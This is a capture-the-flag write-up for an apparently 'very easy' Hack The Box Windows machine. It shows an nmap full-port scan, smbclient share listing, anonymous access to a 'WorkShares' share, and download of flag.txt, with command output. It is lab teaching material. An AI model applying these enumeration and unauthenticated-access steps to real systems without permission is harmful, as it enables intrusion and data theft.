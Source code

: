 #veryeasy 
#smb

Firstly, we start by opening a VPN connection and launching the VM on HTB.

**Reconnaissance**
The first step in any penetration test is to gather information about the target system. In this case, we are trying to identify open ports and services on the target host with the IP address 10.129.193.6. We use the `nmap -p- -sV $TARGET` command with the `-p-` option to scan all possible TCP ports and the `-sV` option to display service version information. The output shows that there are some open ports, after performing a little of research we realize that this ports corresponds to a machine which is likely to be running a SMB service.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-16 11:31 CET
Nmap scan report for 10.129.64.157
Host is up (0.068s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

**SMB Protocol**

First of all we need to see all the shares that are inside the SMB server so we run `smbclient -L $TARGET`
```
Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk
```
Now we need to test all of them one by one in order to see if there is one which allow us to enter without the need of credentials. After testing all of them we realize that the last one doesn't need credentials so we enter using the command `smbclient  //${TARGET}/WorkShares`

Once inside we check the available information, where we will find the flag that we are looking for:
```
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

		5114111 blocks of size 4096. 1732664 blocks available
smb: \> ls Amy.J\ 
  .                                   D        0  Mon Mar 29 11:08:24 2021
  ..                                  D        0  Mon Mar 29 11:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 12:00:37 2021

		5114111 blocks of size 4096. 1732664 blocks available
smb: \> ls James.P\
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

		5114111 blocks of size 4096. 1732664 blocks available

```

To retrieve the flag file we run this command `smb: \> get James.P\flag.txt`

